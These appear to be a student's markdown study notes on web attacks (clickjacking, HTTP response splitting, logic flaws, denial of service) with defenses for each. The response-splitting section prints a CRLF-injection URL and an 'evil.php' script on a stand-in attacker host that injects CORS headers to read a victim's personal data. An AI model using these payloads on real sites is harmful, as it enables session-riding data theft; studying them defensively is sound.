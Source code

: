 # ClickJacking
- Clickjacking is a technique, also known as User Interface (UI) redressing
- Technically, an attacker that wants to perform this attack crafts a malicious HTML page. This page can contain two overlapping layers, one malicious and the other the actual target of the click.
- malicous layer is what is visible to the user and contain innocuous(غير موذية) resource that the vivtim should feel secure clicking it
- the target layes is included via iframe is invisible to the victim and contain resource that will actuelly be clicked
   - this layer usually contain a button that will perform and operation that the victim would be unwilling to perform under normal circumstances
- That attack comprimises Four Steps
  - Feasability Study
  - Building Of a malicous web page
  - spreading the malicous page link
  - waiting for victim to click
- Clickjacking can be leveraged to perform a wide number of attacks such as:
	- forcing users to click on ads
	- performing any action that only requires clicking on a website
- clickjacking defenses
	- The Old School : Tries to avoid clickjacking by using JavaScript code
	- The Current School : HTTP response headers, Content Security Policy, Browser Frame-Breaker
		- It can have two different values: 
			- SAME ORIGIN : The document may be shown inside an iframe only if the container page (under the control of the attacker) and the contained document share the same origin.
			- DENY : The document may not be shown inside an iframe, regardless of the container’s origin.
			- X-Frame-Options
- Watch Video
# HTTP Response Splitting
- This type of Header Injection attack occurs when an attacker `sends` arbitrary data to the server and this data is `returned` as part of the HTTP response.
- Goal : Split the Response into two parts by means of special characters CRLF:
	-  CR (Carriage Return) – `[ \r ]`
	-  LF (Line Feed) – `[ \n ]`
- the use of these charachters is related to how the http protoclo determines the begining of the http response header ( affects all browsers )
- goal of the attacker is to craft http response by sending malicious input including the crafted headers and the special charachters
- A `Header injection` attack would add new Headers to the current HTTP Response block.
- but this attack not only injecting data into headers but alos creating a new http response block with new headers
- Example :
	- A web application puts User Input into one of the Response Headers. This header is Set-Cookie.
	- xss
	- `GET http://target.site/trackUrl.php?url=http://elsfoo.com%0d%0aHTTP/1. 1%20200%20OK%0d%0aContent%2dType:%20text/html%0d%0aContent%2dLengt h:%2039%0d%0a%0d%0a`	
- Bypass Same Origin Policy
- Example
	- Suppose a webpage named getPersonalData.php returns the personal data of the currently logged-in user and that the page is vulnerable to HTTP response splitting (in the trackingUrl parameter).
	- Attacker build a malicious page with this URL http://attacker.site/evil.php.
	- The following is the code of evil.php:
```
	<script>
function loadXMLDoc()
 {
 var xmlhttp;
 xmlhttp=new XMLHttpRequest();
 xmlhttp.withCredentials = true;
 xmlhttp.onreadystatechange=function()
 {
 if (xmlhttp.readyState==4 && xmlhttp.status==200)
 {
 document.getElementById("responseDiv").innerHTML=xmlhttp.responseText;
 }
 }
 
xmlhttp.open("GET","http://target.site/getPersonalData.php?trackingUrl=test%0d%0aAcces
s-Control-Allow-Origin:%20http://attacker.site%0d%0aAccess-Control-AllowCredentials:%20true",true);
 xmlhttp.send();
 }</script>
```

- Best Defensive
	- Filter the input data
	- PHP
	- `header(“Location: elsfoo.com”);`
	- PHP v5.1.4 both critical characters CR and LF have been denied within the function header
- read the examples again it wont take 10 min form the orignal PDF
# Logic Flow
- The best way to detect them is by analyzing the transaction chart of all the processes that the web application provides.
- read the logic flaw it wont take 2 minutes
- Best Defensive
	- Analyze all processes
	- process should be compliant to business rules
# Denial of Services
- Occurs when a system, designed to provide a certain service, stops providing that service to users, after receiving multiple malicious requests.
- This generally occurs because some server resource is overloaded (RAM, CPU, HD, bandwidth, etc.).
- attack the cia triad in the availabiltiy section
- DDoS attacks are the most difficult to prevent because their origin cannot be isolated
- Type 
	- DoS due to a huge number of REQUESTS
	- DoS due to GREEDY PAGES
- Best Defensive
	- Detecting and blocking malicious requests
	- IP blacklisting
